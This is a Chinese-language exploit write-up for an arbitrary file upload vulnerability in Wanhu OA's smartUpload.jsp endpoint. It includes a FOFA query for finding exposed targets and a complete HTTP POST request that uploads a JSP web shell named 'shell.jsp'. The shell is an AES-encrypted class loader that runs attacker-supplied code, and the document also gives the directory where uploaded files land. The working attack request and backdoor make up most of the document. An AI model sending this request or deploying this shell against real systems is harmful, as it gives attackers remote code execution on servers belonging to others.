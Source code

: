 # 万户OA smartUpload.jsp 任意文件上传漏洞

## 漏洞描述

万户OA smartUpload.jsp文件存在文件上传接口，且没有对文件类型进行过滤,导致任意文件上传漏洞

## 漏洞影响

```
万户OA
```

## FOFA

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![image-20220520132954328](./images/202205201329430.png)

文件上传接口

```
/defaultroot/extension/smartUpload.jsp?path=information&fileName=infoPicName&saveName=infoPicSaveName&tableName=infoPicTable&fileMaxSize=0&
```

![image-20220520133009291](./images/202205201330330.png)

可直接上传恶意jsp文件

```
POST /defaultroot/extension/smartUpload.jsp?path=information&mode=add&fileName=infoPicName&saveName=infoPicSaveName&tableName=infoPicTable&fileMaxSize=0&fileMaxNum=0&fileType=gif,jpg,bmp,jsp,png&fileMinWidth=0&fileMinHeight=0&fileMaxWidth=0&fileMaxHeight=0 HTTP/1.1
Host: 
Content-Length: 938
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynNQ8hoU56tfSwBVU
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=PjXnh6bLTzy0ygQf41vWctGPLGkSvkJ6J1yS3ppzJmCvVFQZgm1r!1156443419
Connection: close

------WebKitFormBoundarynNQ8hoU56tfSwBVU
Content-Disposition: form-data; name="photo"; filename="shell.jsp"
Content-Type: application/octet-stream

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
------WebKitFormBoundarynNQ8hoU56tfSwBVU
Content-Disposition: form-data; name="continueUpload"

1
------WebKitFormBoundarynNQ8hoU56tfSwBVU
Content-Disposition: form-data; name="submit"

上传继续
------WebKitFormBoundarynNQ8hoU56tfSwBVU--
```

![image-20220520133028650](./images/202205201330739.png)

通过抓包可查看上传的文件名，上传的目录为 `/defaultroot/upload/information/`

![image-20220520133040250](./images/202205201330344.png)
